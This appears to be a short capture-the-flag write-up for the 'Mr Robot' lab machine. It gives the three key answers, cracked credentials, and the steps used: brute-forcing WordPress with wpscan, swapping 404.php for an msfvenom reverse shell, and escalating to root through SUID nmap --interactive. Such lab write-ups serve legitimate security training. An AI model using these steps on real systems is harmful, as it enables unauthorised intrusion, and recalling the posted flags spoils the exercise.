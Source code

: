 # MR ROBOT

## BASIC INFO
```
export IP=10.10.177.139
```

## HACK THE MACHINE
> - **What is key 1?**
>> 073403c8a58a1f80d943455fb30724b9

robots.txt

> - **What is key 2?**
>> 822c73956184f694993bede3eb39f959

Gobuster found wp-login\
Sort the fsocity.dic first to shrink down the size.\
wpscan on the page with username and password from fsocity.dic\


```
wpscan --url http://$IP -P fsocity_sorted.dic --usernames elliot

[!] Valid Combinations Found:
| Username: elliot, Password: ER28-0652
```

After we logged in, let's try to root the machine.\
Let's try to change the content of 404.php since we know it is running as php.\
Generate a rev_shell with msfvenom.
```
msfvenom 
```

Once we are in the meterpreter session, navigate to /home/robot and grab the password.raw-md5
```
robot:c3fcd3d76192e4007dfb496cca67e13b
robot:abcdefghijklmnopqrstuvwxyz
```
Once we su as robot then we can cat out key-2-of-3.txt

> -  **What is key 3?**
>> 04787ddef27c3dee1ee161b21670b4e4

After we are in as robot, let's try to escalate our privilege more. Let's say... root\
`find / -perm +6000 2>/dev/null` to find root process.\
From the hint it mentioned nmap. And with GTFObins we knwo the exploits.
```
nmap --interactive
!sh
```

Now we are root. `cat /root/key-3-of-3.txt`
